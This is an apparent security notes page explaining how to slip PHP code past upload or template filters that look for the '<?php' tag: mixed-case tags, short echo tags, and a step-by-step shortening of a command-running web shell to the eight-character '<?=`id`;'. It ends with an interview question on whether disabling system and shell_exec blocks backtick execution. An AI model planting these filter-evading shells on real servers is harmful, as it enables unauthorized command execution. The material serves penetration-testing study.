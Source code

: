 # Simple bypass PHP

The common way of writing PHP is start with `<?` and ends with `?>`

Example:

```
<?php phpinfo();?>
```

When attempting to upload file or modify templates, often it will check if the content starts with \`\<?php\` tags

So what are the ways to bypass it?

## Method 1

Use upper and lower case

```
<?pHp system('id');?>
```

## Method 2

Replace the php starting tag with `=`

E.g.

```
<?= system('id');?>
```

## PHP Reduction Challenge: Use 8 characters to run the `id` command

Origin Command

```
<?php system('id');?>  // 21 character
```

### First reduction: PHP tags allow for being unclosed.

PHP has a feature where PHP tags are allowed to be unclosed. This means that you can use `<?php` without using `?>`, and it won't affect the execution of the PHP code.

Utilizing this feature, we can reduce the previous code as follows.

```
<?php system('id'); // 19 character
```

### Second reduction: PHP short tags.

In addition to the standard way of writing PHP tags, there are two other forms, also known as short tags.

```
<?= ?>
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?= system('id'); // 17 character
```

### Third reduction: Changing the method of executing the command.

Since our goal is to successfully execute the command, is there a method that can shorten the code for executing the command? For example, is there a function that is shorter than `system`?

PHP, being a large language, of course, has functions shorter than `system` that can also execute commands.

```
eval()
popen()
exec()
....
```

These are still not short enough. The shortest of all is the backticks `` ` ` ``. PHP can execute commands using backticks.

```
system('id')  =>  `id`
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?=`id`;
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Interview Question

It is interesting to see how the backticks can excute shell commands, so how do you prevent backticks from executing commands, does backticks bind to `system` function or `shell_exec` function?

Will disable this 2 functions preventing backtick from executing?



## Author&#x20;

[Ikonw](https://github.com/Ik0nw/)
